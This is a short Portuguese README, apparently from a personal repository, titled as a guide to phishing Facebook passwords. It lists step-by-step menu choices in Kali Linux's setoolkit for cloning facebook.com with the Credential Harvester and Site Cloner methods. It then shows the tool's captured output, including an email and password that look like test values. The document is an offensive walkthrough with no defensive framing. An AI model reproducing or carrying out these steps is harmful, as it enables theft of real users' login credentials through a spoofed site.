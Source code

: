 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

- POSSIBLE USERNAME FIELD FOUND: skip_api_login~
- PARAM: signed_next=
- PARAM: trynum=1
- PARAM: timezone=180
- PARAM: lgndim=eyJ3IjogMTkyMCwgImgiOiAxMDgwLCAiYXYiOiAxOTIwfQ
- PARAM: lgnrnd=132556_dsFF
- PARAM: lgnjs=4019581468

POSSIBLE USERNAME FIELD FOUND: email=marcosteste@hotmail.com 
POSSIBLE PASSWORD FIELD FOUND: pass=testeste

- PARAM: prefill_contact_point=
- PARAM: prefill_source=
- PARAM: prefill_type=1
- PARAM: first_prefill_source=
